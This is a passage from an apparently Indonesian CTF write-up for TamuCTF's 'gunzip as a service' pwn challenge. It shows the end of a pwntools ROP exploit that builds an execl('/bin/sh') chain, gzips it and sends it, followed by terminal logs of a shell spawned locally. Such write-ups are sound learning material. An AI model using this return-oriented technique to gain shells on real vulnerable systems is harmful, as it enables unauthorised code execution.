 ```
    payload += p32(0)                       # 4
    payload += p32(bss)                     # 8
    payload += p32(0x10)                    # 12
    payload += p32(0)                       # ebx
    payload += p32(0)                       # esi
    payload += p32(0)                       # edi
    payload += p32(0)                       # ebp
    payload += p32(binary.plt['execl'])
    payload += 'JUNK'
    payload += p32(bss)
    payload += p32(0)
    payload += p32(0)

    open("rop", "w+").write(payload)
    os.system("gzip rop")

    rop = open("rop.gz", "rb").read()
    p.send(rop)
    os.system("rm rop.gz")
    p.send("/bin/sh\x00")

    p.interactive()

if __name__ == "__main__":
   exploit3()
```
Saat kami coba di local, senangnya kami melihat shell berhasil didapatkan :D.
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
14:40:46 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 13701
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ ls
core              gunzipasaservice.id1  img1.png       test.gz
flag.txt          gunzipasaservice.id2  payAldo.py
gunzipasaservice      gunzipasaservice.nam  payChristo.py
gunzipasaservice.id0  gunzipasaservice.til  README.md
$ id
uid=1000(chao) gid=1000(chao) groups=1000(chao),4(adm),24(cdrom),27(sudo),29(audio),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(kvm),999(docker)
$  
```
Saat kami coba di remote host, kami-pun akhirnya berhasil mendapatkan shell.<br>
Betapa bahagianya kami karena usaha kami terbayarkan wkowkwokw :v.<br>
Namun karena remote host sudah mati, jadi kami lampirkan hasil di local. <br>
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
14:43:23 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 13788
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
```